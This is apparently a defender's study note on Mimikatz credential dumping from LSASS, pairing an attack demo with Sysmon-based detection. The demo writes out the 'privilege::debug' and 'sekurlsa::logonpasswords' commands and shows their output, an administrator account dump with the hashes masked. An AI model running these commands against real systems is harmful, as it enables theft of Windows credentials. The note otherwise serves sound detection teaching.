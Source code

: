 # **Dumping Tools**
- One widely used tool for credential dumping is [Mimikatz](https://github.com/gentilkiwi/mimikatz), offering various methods for extracting Windows credentials.
- One specific command, `"sekurlsa::logonpasswords"`, enables the dumping of password hashes or plaintext passwords by accessing the [Local Security Authority Subsystem Service (LSASS)](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service).

```ad-note
**LSASS** is responsible for managing user credentials and is a primary target for credential-dumping tools like Mimikatz.
```

# **Attacking Demo**
```powershell
C:\Tools\Mimikatz> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1128191 (00000000:001136ff)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : DESKTOP-NU10MTO
Logon Server      : DESKTOP-NU10MTO
Logon Time        : 5/31/2023 4:14:41 PM
SID               : S-1-5-21-2712802632-2324259492-1677155984-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * NTLM     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
         * SHA1     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX0812156b
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        ssp :   KO
        credman :
```

=> The output of the `"sekurlsa::logonpasswords"` command provides powerful insights into compromised credentials.

# **Detection Demo**
Checking `Sysmon event ID 10`, which represents **"ProcessAccess"** events =>  identify any suspicious attempts to access LSASS.

![](../6.%20Image/Pasted%20image%2020250517211805.png)

![](../6.%20Image/Pasted%20image%2020250517211815.png)

### **IOCs Analysis:**
1.  **"AgentEXE"** attempts to access **LSASS**, it indicates unusual behavior.
2.  `SourceUser` being different from the `TargetUser` (e.g., **"waldo"** as the `SourceUser` and **"SYSTEM"** as the `TargetUser`).
3.  As part of the mimikatz-based credential dumping process, the user must request [SeDebugPrivileges](https://devblogs.microsoft.com/oldnewthing/20080314-00/?p=23113).

```ad-note
Some legitimate processes may access LSASS, such as authentication-related processes or security tools like AV or EDR.
```
